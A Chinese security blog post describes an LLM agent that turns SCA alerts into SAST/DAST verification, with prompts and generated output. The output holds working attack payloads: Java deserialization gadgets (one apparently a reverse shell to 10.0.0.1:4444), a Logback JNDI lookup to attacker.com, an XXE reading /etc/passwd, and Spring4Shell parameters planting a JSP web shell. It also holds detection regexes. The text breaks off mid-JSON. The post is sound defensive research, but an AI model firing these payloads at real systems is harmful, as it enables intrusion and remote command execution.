









# SCA的“最后一公里”：基于LLM Agent联动SAST/DAST的漏洞可达性分析实践-先知社区

> **来源**: https://xz.aliyun.com/news/19208  
> **文章ID**: 19208

---

这个想法源于我前几天一次实习的面试中,面试官问到,对于sca,如何判断使用了漏洞版本组件的应用确实有配置缺陷或者使用了能引发漏洞的函数呢,因为这样才能判上死刑让开发去修复/升级

当时我并没有想出特别合理的解决方案,但是这个问题一下子给予我很大启发,这个问题其实点出了当前软件供应链安全（SCA）领域的核心困境：**SCA工具提供了“广度”，却严重缺乏“深度”**  
过去我们的SCA都是只能看到企业的应用中都用了哪些组件及版本,关联了漏洞库的还能看到漏洞的cve编号,漏洞披露网站上的描述等,无法直接感知到这个漏洞是否真实存在,以及修复优先级如何

这就导致了传统的SCA工具的三大痛点：

* 误报率高：仅基于版本匹配，无法判断代码路径是否可达
* 优先级混乱：所有CVE一视同仁，缺乏业务场景下的风险评估
* 修复盲目：开发团队不知道该优先修复哪些，往往一刀切升级

笔者后续查阅了一些资料,并没有发现很好的公开解决方案  
想了一会之后,觉得这个问题可能可以靠联动sdl工具链上的隔壁两位SAST和DAST,能够解决部分问题  
而且笔者一直对用大模型赋能SDL工具链上的各种工具十分感兴趣,于是有了这次尝试

# 思路

## SCA + SAST (白盒)

1. SCA (第一步 - 告警)：

* 扫描项目，识别出 `log4j-core-2.14.1.jar`。
* SCA工具的漏洞库指出：这个JAR包中的 `org.apache.logging.log4j.core.lookup.JndiLookup` 类的 `lookup` 方法存在RCE漏洞（Log4Shell）。
* 关键点：SCA工具必须提供Sink点的信息，即具体是哪个类、哪个方法有漏洞。

1. **SAST (第二步 - 验证)**：

* SAST工具（白盒扫描）启动，执行污点分析
* **Sink点**：使用SCA提供的漏洞信息，即 `JndiLookup.lookup(...)` 方法
* **分析**：是否匹配到指定配置/方法

## SCA + DAST (POC验证)

1. **SCA发现**：`log4j` 漏洞
2. 分析输出DAST的针对性POC
3. **DAST（动态扫描）**：启动应用。
4. **联动**：DAST工具不再是盲目地全站扫描，而是从它的POC库中调取专门针对Log4Shell的POC（例如，在所有它能找到的HTTP头、参数里都插入 `${jndi:ldap://...}` payload），然后看能否触发DNSLog或反向Shell。

这个任务的复杂性在于，它不是一个简单的信息查询问题。它需要**多步骤的推理和信息编排**：首先要理解SCA的告警，然后去多个异构数据源（如GHSA、NVD、PoC库）查询，接着要**综合分析**所有信息（比如阅读PoC代码和commit diff），最后才能**推导出**SAST/DAST的规则。

这种复杂的工作流，仅靠单个LLM提示（Prompt）难以完成。因此，笔者采用了基于 LangGraph 的 Agent 架构，它允许我们定义一个状态机，让 AI 自主调用工具、循环查询、进行决策，最终“攒”出高质量的验证建议

# 实践

为了验证这个流程是否能跑通,特别是最后能不能有像样的输出(其实还是对于ai能力的不够信任).于是我立刻用langgraph框架,实现了一个简易demo  
  
整体架构大致长这样

## 输入层和核心处理层

  
输入我用的是openSCA来测试的(<https://github.com/XmirrorSecurity/OpenSCA-cli/tree/master),添加上token之后,就可以使用玄镜的官方漏洞库了>

## 信息获取与分析



* GitHub Security Advisories：及时性好，质量高
* 厂商安全公告：权威性强，修复建议详细
* GitHub提交分析：通过修复commit理解漏洞本质
* PoC源：提供实际的攻击向量

这里用的是我能想到的几个能够对大部分漏洞都能覆盖到且有效信息较多的数据源(NVD没有申请token暂时用不了,后续可考虑用其他漏洞披露网站替代)

## 输出

然后输出分成4种  
  
Enhanced Findings.json文件包含原SCA输出及每个组件(如果有漏洞的话)的SAST,DAST验证建议,Processing Summary主要是这次任务的总览信息

## 流程

  
  
测试项目是一个用springboot+thymeleaf的电商商城项目,starsea(<https://github.com/StarSea99/starsea-mall>)  
llm用的是经济的deepseek-chat的api  
得益于langgraph的langsmith生态,我能看到每一轮对话的细节  
这里抽出几个比较有代表性的case

## DAST

### case1

输入  
  
输出包括攻击

```
{
    "attack_vectors": [
        {
            "protocol": "HTTP",
            "interface_type": "web",
            "injection_points": ["/api/logger/config", "/admin/logging", "/config/logback", "/services/logging", "/management/logback", "/actuator/logback", "/logback/configure", "/logging/settings", "/system/logconfig", "/app/logback"]
        },
        {
            "protocol": "HTTP",
            "interface_type": "web",
            "injection_points": ["config", "configuration", "logConfig", "logbackConfig", "xmlConfig", "serializedConfig", "data", "payload", "object", "serializedObject"]
        },
        {
            "protocol": "HTTP",
            "interface_type": "web",
            "injection_points": ["Content-Type: application/xml", "Content-Type: application/java-serialized-object", "Accept: application/xml", "X-Config-Type: serialized"]
        }
    ],
    "payloads": [
        {
            "name": "ysoserial_commons_collections",
            "raw": "rO0ABXNyABFqYXZhLnV0aWwuSGFzaE1hcAUH2sHDFmDRAwACRgAKbG9hZEZhY3RvckkACXRocmVzaG9sZHhwP0AAAAAAAAx3CAAAABAAAAABc3IAK29yZy5hcGFjaGUuY29tbW9ucy5jb2xsZWN0aW9ucy5rZXl2YWx1ZS5UaWVkTWFwNObxBB8CAAFMAAZtYXBLZXl0ABJMamF2YS9sYW5nL09iamVjdDt4cHQAA2Zvb3NyACpvcmcuYXBhY2hlLmNvbW1vbnMuY29sbGVjdGlvbnMubWFwLkxhenlNYXBu5ZSCnnkQlAMAAUwAB2ZhY3Rvcnl0ACxMb3JnL2FwYWNoZS9jb21tb25zL2NvbGxlY3Rpb25zL1RyYW5zZm9ybWVyO3hwc3IAOm9yZy5hcGFjaGUuY29tbW9ucy5jb2xsZWN0aW9ucy5mdW5jdG9ycy5DaGFpbmVkVHJhbnNmb3JtZXIwx5fsKHqXBAIAAVsADWlUcmFuc2Zvcm1lcnN0AC1bTG9yZy9hcGFjaGUvY29tbW9ucy9jb2xsZWN0aW9ucy9UcmFuc2Zvcm1lcjt4cHVyAC1bTG9yZy9hcGFjaGUvY29tbW9ucy9jb2xsZWN0aW9ucy9UcmFuc2Zvcm1lcju9Virx2DQYmQIAAHhwAAAABXNyADtvcmcuYXBhY2hlLmNvbW1vbnMuY29sbGVjdGlvbnMuZnVuY3RvcnMuQ29uc3RhbnRUcmFuc2Zvcm1lclh2kBFBArGUAgABTAAJaUNvbnN0YW50cQB+AAN4cHZyABFqYXZhLmxhbmcuUnVudGltZQAAAAAAAAAAAAAAeHBzcgA6b3JnLmFwYWNoZS5jb21tb25zLmNvbGxlY3Rpb25zLmZ1bmN0b9ycy5JbnZva2VyVHJhbnNmb3JtZXKX3OAdyTcWAwABWwADaUFyZ3N0ABNbTGphdmEvbGFuZy9PYmplY3Q7WwALaVBhcmFtVHlwZXN0ABJbTGphdmEvbGFuZy9DbGFzczt4cHVyABNbTGphdmEubGFuZy5PYmplY3Q7kM5Y3BbsTgIAAHhwAAAAAnQAA2Zvb3QABGJhcnNxAH4ABnZyABBqYXZhLmxhbmcuU3RyaW5noPCkOHo7s0ICAAB4cHcEAAAAAnQACGNhbGMuZXhldAAEZXhlY3VxAH4ADHh4",
            "placement": "body",
            "encoding": "base64",
            "notes": "Base64 encoded Java serialized object using Commons Collections gadget chain to execute 'calc.exe'"
        },
        {
            "name": "logback_xml_external_entity",
            "raw": "<?xml version="1.0" encoding="UTF-8"?>
<configuration>
  <insertFromJNDI env-entry-name="ldap://attacker.com:1389/Exploit" />
</configuration>",
            "placement": "body",
            "encoding": "raw",
            "notes": "Logback XML configuration with malicious JNDI lookup"
        },
        {
            "name": "logback_xml_xxe",
            "raw": "<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE configuration [
  <!ENTITY xxe SYSTEM "file:///etc/passwd">
]>
<configuration>
  <appender name="FILE" class="ch.qos.logback.core.FileAppender">
    <file>&xxe;</file>
  </appender>
</configuration>",
            "placement": "body",
            "encoding": "raw",
            "notes": "Logback XML configuration with XXE to read local files"
        },
        {
            "name": "serialized_rmi_payload",
            "raw": "rO0ABXNyABFqYXZhLnV0aWwuSGFzaE1hcAUH2sHDFmDRAwACRgAKbG9hZEZhY3RvckkACXRocmVzaG9sZHhwP0AAAAAAAAx3CAAAABAAAAABc3IAK29yZy5hcGFjaGUuY29tbW9ucy5jb2xsZWN0aW9ucy5rZXl2YWx1ZS5UaWVkTWFwNObxBB8CAAFMAAZtYXBLZXl0ABJMamF2YS9sYW5nL09iamVjdDt4cHQAA2Zvb3NyACpvcmcuYXBhY2hlLmNvbW1vbnMuY29sbGVjdGlvbnMubWFwLkxhenlNYXBu5ZSCnnkQlAMAAUwAB2ZhY3Rvcnl0ACxMb3JnL2FwYWNoZS9jb21tb25zL2NvbGxlY3Rpb25zL1RyYW5zZm9ybWVyO3hwc3IAOm9yZy5hcGFjaGUuY29tbW9ucy5jb2xsZWN0aW9ucy5mdW5jdG9ycy5DaGFpbmVkVHJhbnNmb3JtZXIwx5fsKHqXBAIAAVsADWlUcmFuc2Zvcm1lcnN0AC1bTG9yZy9hcGFjaGUvY29tbW9ucy9jb2xsZWN0aW9ucy9UcmFuc2Zvcm1lcjt4cHVyAC1bTG9yZy9hcGFjaGUvY29tbW9ucy9jb2xsZWN0aW9ucy9UcmFuc2Zvcm1lcju9Virx2DQYmQIAAHhwAAAABXNyADtvcmcuYXBhY2hlLmNvbW1vbnMuY29sbGVjdGlvbnMuZnVuY3RvcnMuQ29uc3RhbnRUcmFuc2Zvcm1lclh2kBFBArGUAgABTAAJaUNvbnN0YW50cQB+AAN4cHZyABFqYXZhLmxhbmcuUnVudGltZQAAAAAAAAAAAAAAeHBzcgA6b3JnLmFwYWNoZS5jb21tb25zLmNvbGxlY3Rpb25zLmZ1bmN0b3JzLkludm9rZXJUcmFuc2Zvcm1lcpfc4B3JNxYDAABbAANpQXJnc3QAElsqTGphdmEvbGFuZy9PYmplY3Q7WwALaVBhcmFtVHlwZXN0ABJbTGphdmEvbGFuZy9DbGFzczt4cHVyABNbTGphdmEubGFuZy5PYmplY3Q7kM5Y3BbsTgIAAHhwAAAAAnQAA2Zvb3QABGJhcnNxAH4ABnZyABBqYXZhLmxhbmcuU3RyaW5noPCkOHo7s0ICAAB4cHcEAAAAAnQACW5jIDEwLjAuMC4xIDQ0NDR0AARleGVjdXEAfAAMeHg=",
            "placement": "body",
            "encoding": "base64",
            "notes": "Serialized payload attempting reverse shell connection to 10.0.0.1:4444"
        },
        {
            "name": "malicious_logback_config",
            "raw": "<configuration>
  <appender name="FILE" class="ch.qos.logback.core.FileAppender">
    <file>/tmp/malicious.txt</file>
    <encoder>
      <pattern>%d{HH:mm:ss.SSS} [%thread] %-5level %logger{36} - %msg%n</pattern>
    </encoder>
  </appender>
  <root level="debug">
    <appender-ref ref="FILE" />
  </root>
  <jmxConfigurator />
</configuration>",
            "placement": "body",
            "encoding": "raw",
            "notes": "Logback configuration enabling JMX configurator for potential RCE"
        }
    ],
    "detectors": [
        {
            "pattern": "response_body",
            "value": "java\.lang\.Runtime|ProcessBuilder|getRuntime\(\)\.exec|cmd\.exe|/bin/sh",
            "hint": "Detects command execution patterns in response"
        },
        {
            "pattern": "response_code",
            "value": "500|200",
            "hint": "Unexpected success or error codes during deserialization attempts"
        },
        {
            "pattern": "response_time",
            "value": ">5000",
            "hint": "Significant delay indicating potential command execution"
        },
        {
            "pattern": "response_header",
            "value": "java\.io\.InvalidClassException|java\.io\.StreamCorruptedException|java\.lang\.ClassNotFoundException",
            "hint": "Java deserialization error messages"
        },
        {
            "pattern": "outbound_connection",
            "value": "10\.0\.0\.1:4444|attacker\.com:1389",
            "hint": "Detects outbound connections to test servers"
        },
        {
            "pattern": "file_creation",
            "value": "/tmp/malicious\.txt|/etc/passwd",
            "hint": "Detects file system interactions"
        }
    ],
    "risk_notes": "HIGH RISK: Logback deserialization vulnerabilities can lead to remote code execution. Test endpoints accepting XML configurations or serialized Java objects. Focus on administrative interfaces, logging endpoints, and configuration management APIs. Use serialized payloads targeting Commons Collections, JNDI lookups, and XXE attacks. Monitor for outbound connections, file system changes, and command execution indicators. Test with both authenticated and unauthenticated requests. Consider rate limiting and test during off-peak hours to avoid service disruption."
}
```

### case2

输入  
  
截图可能看不清  
system

```
You are a security expert specializing in dynamic application security testing (DAST).
Your task is to analyze vulnerability findings and create comprehensive DAST test inputs.

For each vulnerability finding, you need to generate:
1. Attack vectors (HTTP methods, endpoints, parameters)
2. Test payloads for exploitation
3. Detection patterns to identify successful exploitation

Provide specific, actionable test scenarios that can be used by DAST tools.
```

human

```
Analyze this vulnerability finding and create DAST test inputs:

Finding: {
  "package": "spring-webmvc",
  "version": "5.2.12.RELEASE",
  "language": "Java",
  "vulnerability": {
    "title": "XMIRROR-E5B714FC-FE4C4195",
    "description": "Vulnerability of type VulnerabilityType.TEMPLATE_INJECTION",
    "cve": "CVE-2022-22965",
    "severity": "critical"
  }
}
Evidence: No evidence available

Generate comprehensive DAST inputs including:
1. Attack vectors with specific HTTP methods and injection points
2. Test payloads for this vulnerability type
3. Detection patterns to identify successful exploitation
4. Risk assessment and testing notes

Return the response in JSON format with the following structure:
{
    "attack_vectors": [
        {
            "protocol": "HTTP",
            "interface_type": "web",
            "injection_points": ["specific endpoints or parameters"]
        }
    ],
    "payloads": [
        {
            "name": "payload_name",
            "raw": "actual_payload_content",
            "placement": "parameter|header|body",
            "encoding": "raw|url|base64",
            "notes": "payload description"
        }
    ],
    "detectors": [
        {
            "pattern": "detection_pattern",
            "value": "detection_value",
            "hint": "what this detects"
        }
    ],
    "risk_notes": "assessment and testing guidance"
}
```

输出

```
{
    "attack_vectors": [
        {
            "protocol": "HTTP",
            "interface_type": "web",
            "injection_points": ["POST /users", "POST /api/users", "POST /admin/users", "any POST endpoint accepting user input"],
            "methods": ["POST"],
            "parameters": ["class.module.classLoader.resources.context.parent.pipeline.first.pattern", "class.module.classLoader.resources.context.parent.pipeline.first.suffix", "class.module.classLoader.resources.context.parent.pipeline.first.directory", "class.module.classLoader.resources.context.parent.pipeline.first.prefix", "class.module.classLoader.resources.context.parent.pipeline.first.fileDateFormat"]
        },
        {
            "protocol": "HTTP",
            "interface_type": "web",
            "injection_points": ["GET /users", "GET /api/users", "any GET endpoint with parameter binding"],
            "methods": ["GET"],
            "parameters": ["class.module.classLoader.resources.context.parent.pipeline.first.pattern", "class.module.classLoader.resources.context.parent.pipeline.first.suffix", "class.module.classLoader.resources.context.parent.pipeline.first.directory", "class.module.classLoader.resources.parent.pipeline.first.prefix", "class.module.classLoader.resources.context.parent.pipeline.first.fileDateFormat"]
        }
    ],
    "payloads": [
        {
            "name": "log_pattern_injection",
            "raw": "class.module.classLoader.resources.context.parent.pipeline.first.pattern=%25%7Bc1%7Di%20if(%22j%22.equals(request.getParameter(%22pwd%22)))%7B%20java.io.InputStream%20in%20%3D%20%25%7Bc1%7Di%20Runtime.getRuntime().exec(request.getParameter(%22cmd%22)).getInputStream()%3B%20int%20a%20%3D%20-1%3B%20byte%5B%5D%20b%20%3D%20new%20byte%5B2048%5D%3B%20while((a%3Din.read(b))!%3D-1)%7B%20out.println(new%20String(b))%3B%20%7D%20%7D%20%25%7Bc2%7Di",
            "placement": "parameter",
            "encoding": "url",
            "notes": "Injects malicious log pattern to create web shell accessible via ?pwd=j&cmd=id"
        },
        {
            "name": "file_writing_injection",
            "raw": "class.module.classLoader.resources.context.parent.pipeline.first.directory=webapps/ROOT&class.module.classLoader.resources.context.parent.pipeline.first.prefix=shell&class.module.classLoader.resources.context.parent.pipeline.first.suffix=.jsp",
            "placement": "parameter",
            "encoding": "url",
            "notes": "Configures AccessLogValve to write JSP files to webapps/ROOT directory"
        },
        {
            "name": "simple_test_pattern",
            "raw": "class.module.classLoader.resources.context.parent.pipeline.first.pattern=%3C%25%3D%20%22test123%22%20%25%3E",
            "placement": "parameter",
            "encoding": "url",
            "notes": "Simple test pattern to verify template injection vulnerability"
        },
        {
            "name": "command_execution_shell",
